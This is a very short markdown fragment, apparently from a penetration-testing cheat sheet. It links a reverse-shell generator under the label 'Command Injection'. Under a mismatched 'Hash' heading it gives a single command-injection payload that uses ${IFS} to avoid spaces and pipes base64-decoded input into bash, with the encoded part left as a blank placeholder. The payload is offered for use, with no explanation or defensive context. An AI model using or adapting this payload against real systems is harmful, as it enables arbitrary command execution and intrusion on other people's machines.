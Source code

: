 ### Tools
---
1. [Command Injection](https://www.revshells.com/)
---
### Hash
```
;echo${IFS}' '|base64${IFS}-d|bash;
```
